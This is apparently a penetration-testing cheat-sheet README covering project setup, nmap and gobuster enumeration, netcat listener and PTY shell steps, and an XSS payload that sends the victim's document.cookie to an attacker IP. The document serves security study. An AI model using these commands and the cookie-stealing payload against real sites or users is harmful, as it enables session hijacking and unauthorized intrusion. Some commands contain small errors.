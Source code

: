 # REDREF

A red teaming reference for attacking boxes. This repository contains notes, comands and tips for penetration testing. Notes are arranged according to the [MITRE ATT&CK framework](https://attack.mitre.org/), which also aligns nicely with the way Kali Linux is structured.



## Setup
```
[myproject]
    |
    |__ [myproject].md      <-- stores the summary notes
    |__ requirements.txt    <-- python libraries used within this project
    |__ variables.sh        <-- contains variables for the target environment
    |__ .gitignore          <-- use to tell git to ignore certain files/filetypes if using version control
    |__ .venv               <-- folder for python interpreter specific to this project
```

When starting a new project it is handy to create a folder structure similar to above the on the local filesystem (replace `[myproject]` with the name of the project). This folder will store all scripts and outputs specific to the project.

More details on this are below.

### Create the notes file
Markdown (.md) format is very useful for capturing code related notes. Creating a `[myproject.md]` in the project root folder provides a ready reference for the process, theories, commands, dead ends, findings etc specific to the project.


### Set variables
It is very useful to set shell variables that can be reused multiple times. Most of the commands in this repository rely on these variables being set. When recommencing work on a project just `source variables.sh`.
Example contents:

```
target_ip='10.10.10.10'
user='john'
pass='password123'
domain='mydomain'
```    

### Python virutal environments
When crafting payloads or exploits or running custom cracking tools it is often useful to use Python. The best way of doing this is to create a virtual environment within the project folder.
- Install venv: `sudo apt install python3-venv`
- Create a new virtual environment called .venv in the current directory `python -m venv .venv`
- Activate the environment `source .venv/bin/activate`
- Create a text file with python libraries required for the project (one library per line). By convention this is called `requirements.txt`.
- Install required packages listed in requriements.txt `pip install requirements.txt`



## General process

### Getting started.

- **Host and Port Scanning**: First step is usually to run nmap to find out what ports and services are open. Use a range of scans. At least a broad scan to identify open ports, then use service and script enumeration to obtain further details.



## Super useful reference sites:

1. [WADComs](https://wadcoms.github.io/): An interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.


## TO DO
The following sections need to find a home.

### Directory enumeration
Set variables: `target_url="target_url"`
- Gobuster: `gobuster dir -u $target_url -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt | tee gobuster_dir.txt`

### VHost
gobuster vhost -v -u https://abrictosecurity.com -w /usr/share/wordlists/subdomains/top5000subdomains -o vhostlist.txt

### Sniffing & Spoofing
Show connected and listening sockets `netstat -an` (-n shows numberical port)


## Exploitation

### Reverse shells
- Create a listener using netcat `nc -lvvp [port]`
- Spawn a bash shell `python3 -c 'import pty;pty.spawn("/bin/bash")'`

### Web Server Listener
- Start a simple python web server to listen for connections: `python -m http.server 5000`'



## XSS Payloads
- Img: `<script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie); </script>`